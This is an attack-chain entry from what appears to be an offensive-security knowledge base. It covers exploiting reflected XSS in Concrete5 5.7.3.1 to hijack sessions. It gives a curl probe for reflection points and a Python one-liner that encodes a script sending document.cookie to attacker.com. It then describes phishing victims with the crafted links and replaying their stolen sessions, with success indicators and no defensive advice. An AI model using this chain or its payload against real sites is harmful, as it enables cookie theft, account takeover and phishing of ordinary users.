

---
tags:
  - xss
  - reflected-xss
  - concrete5
  - session-hijacking
  - credential-theft
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/curl-xss-test]]'
  - '[[commands/encode-xss-payload]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Identify-Reflected-XSS-Endpoints-in-Concrete5]]'
  - '[[procedures/Craft-and-Inject-XSS-Payload]]'
  - '[[procedures/Deliver-Payload-for-Session-Hijacking]]'
step_count: 3
techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
description: >-
  A multi-step attack exploiting multiple reflected XSS vulnerabilities in
  Concrete5 5.7.3.1 to inject and execute malicious JavaScript in victims'
  browsers, enabling credential theft and session hijacking.
skill_level: intermediate
impact_level: high
id: f019f132-a80b-4d3e-84a8-358d78d1c935
created_at: '2025-12-14T03:15:35.628Z'
updated_at: '2025-12-14T03:15:35.628Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
---
# Multiple Reflected XSS in Concrete5 for Session Hijacking

## Overview

This attack chain exploits multiple reflected Cross-Site Scripting (XSS) vulnerabilities in Concrete5 version 5.7.3.1, where user-supplied inputs from various application parameters are directly echoed back into the HTML output without proper validation or encoding. An attacker can craft malicious links that, when clicked by a victim, inject and execute arbitrary JavaScript in the victim's browser context. This enables theft of sensitive data like cookies, session tokens, or credentials, leading to session hijacking or further client-side attacks. The vulnerabilities were identified through systematic testing of input fields across the application, such as search parameters, error messages, and form redirects.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser with developer tools
- Command-line tools like curl for testing

### Target Environment

- Concrete5 CMS version 5.7.3.1 running on a PHP-based web server
- Accessible web application over HTTP/HTTPS
- No specific ports beyond standard 80/443

### Initial Access Requirements

- Publicly accessible Concrete5 instance
- No authentication required for reflected XSS (victim interaction needed)
- Ability to send crafted URLs to victims via email, social engineering, etc.

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Inputs
procedure: [[procedures/Identify-Reflected-XSS-Endpoints-in-Concrete5]]

**Objective**: Scan and confirm reflection points in Concrete5 where user inputs are echoed without sanitization, such as in search forms, error pages, or URL parameters.

**Instructions**: Use [[commands/curl-xss-test]] to probe common endpoints like search or login redirect parameters for reflection:

```bash
curl -G "http://target.concrete5.site/search" --data-urlencode "query=<script>alert(1)</script>"
```

Inspect the response for unencoded reflection of the payload. Repeat for other inputs like error messages or dashboard parameters.

**Expected Output**: HTML response containing the injected script tag without encoding, e.g., `<script>alert(1)</script>` visible in the page source.

**Success Indicators**:
- Payload reflected in output without HTML entity encoding
- No CSP or filtering blocks the script execution

### Step 2: Craft and Inject XSS Payload
procedure: [[procedures/Craft-and-Inject-XSS-Payload]]

**Objective**: Develop a JavaScript payload to steal session data and inject it into confirmed vulnerable parameters.

**Instructions**: Encode a payload to exfiltrate cookies using [[commands/encode-xss-payload]] for URL safety:

```bash
python3 -c "import urllib.parse; print(urllib.parse.quote('<script>document.location=\'http://attacker.com/steal?cookie=\' + document.cookie</script>'))"
```

Inject the encoded payload into the vulnerable parameter, e.g., via a crafted URL: `http://target.concrete5.site/search?query=<encoded_payload>`.

**Expected Output**: When loaded in a browser, the payload executes, sending cookies to the attacker's server.

**Success Indicators**:
- JavaScript executes in browser console (test with alert())
- Data exfiltrated to attacker-controlled endpoint

### Step 3: Deliver Payload for Session Hijacking
procedure: [[procedures/Deliver-Payload-for-Session-Hijacking]]

**Objective**: Distribute the malicious link to victims to trigger execution and hijack their sessions.

**Instructions**: Host the exfiltration endpoint on an attacker server, then send phishing links embedding the payload, e.g., `http://target.concrete5.site/vulnerable?param=<payload>`. Monitor incoming requests for stolen session data.

**Expected Output**: Victim's browser executes the script, transmitting session cookies to attacker.

**Success Indicators**:
- Receipt of victim cookies on attacker server
- Successful replay of stolen session for account access

## Attack Chain Summary

### Key Achievements

1. Identification of multiple reflection points in Concrete5 inputs
2. Successful injection and execution of JavaScript payloads
3. Achievement of session hijacking via stolen credentials

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01*
